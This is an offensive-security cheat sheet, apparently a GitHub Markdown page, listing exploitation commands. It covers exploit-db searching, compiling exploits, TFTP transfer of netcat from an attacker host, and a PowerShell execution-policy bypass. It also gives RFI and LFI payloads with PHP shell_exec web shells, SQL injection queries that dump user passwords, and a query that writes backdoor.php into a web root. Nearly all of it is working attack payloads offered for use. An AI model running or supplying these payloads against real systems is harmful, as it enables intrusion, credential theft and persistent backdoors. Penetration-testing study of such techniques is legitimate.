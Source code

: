 # Exploitation
_Finding Public Exploits:_  
www.securityfocus.com/vulnerabilities    
www.exploit-db.com

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`

_SQL Injection_   
“`Any’ or 1=1 limit 1;#`” #any username, always true statement, limit one account, end statement while ignoring rest of needed arguments   

Error-based Enumeration Example:  
`test.php?id=1 union order by <recursive #s>` #figure out how many columns (lets assume 6 columns)  
`test.php?id=1 union select 1,2,3,4,5,6` #see where each column is on the page   
`test.php?id=1 union select 1,2,3,4,@@version,6` #use 5th column position to print server version   
`test.php?id=1 union select 1,2,3,4,user(),6` #displays current DB user into 5th column field   
`test.php?id=1 union select 1,2,3,4,table_name,6 FROM information_schema.tables` #all tables   
`union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name=‘users’` #Extract all column names from the specific table of interest   
`union select 1,2,name,4,password,6 FROM users` #dump creds from users table   

`union all select 1,2,3,4,”<?php echo shell_exec($_GET[‘cmd’]);?>”,6 into OUTFILE ‘c:/xampp/htdocs/backdoor.php’` #add backdoor file to the Windows web root   
`TargetIP/backdoor.php?cmd=ipconfig` #access the uploaded backdoor    
